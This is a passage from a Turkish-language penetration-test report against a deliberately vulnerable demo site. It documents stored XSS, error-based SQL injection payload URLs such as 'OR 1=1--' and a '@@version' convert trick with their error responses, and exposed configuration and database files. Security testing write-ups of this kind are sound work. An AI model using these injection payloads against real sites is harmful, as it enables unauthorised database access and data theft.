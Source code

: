 ![Stored XSS Kanıtı](media/2.png)

### 5.2 Error-Based SQL Injection

- **URL ve Payload’lar**:
  - `http://aspnet.testsparker.com/Products.aspx?pId=asd` → `Invalid column name 'asd'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=user` → `Conversion failed when converting the nvarchar value 'dbo' to data type int.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=2' OR 1=1--` → `Incorrect syntax near '1'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=4'+convert(int,(SELECT @@version))--` → `Incorrect syntax near the keyword 'convert'. Incorrect syntax near ')'.`
  - **Ekran Görüntüsü**: 

![SQL Injection](media/4.png)

### 5.3 Hassas Dosya İfşası - Yapılandırma Dosyası

- **URL**: `http://aspnet.testsparker.com/statics/help-yes.html`

- **İçerik**:

  ```
  ; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1 CMCDLLNAME32=mapi32.dll CMC=1 MAPIX=1 MAPIXVER=1.0.0.1 OLEMessaging=1 [ResponseResult] ResultCode=0
  ```

### 5.4 Hassas Dosya İfşası - Veritabanı Dosyası

- **URL**: `http://aspnet.testsparker.com/statics/data.mdb`

- **İçerik**: `strings data.mdb` komutuyla elde edilen çıktı:

  ```
  Standard Jet DB
  gr@?
  y[S)|*
  mustafa
  ```
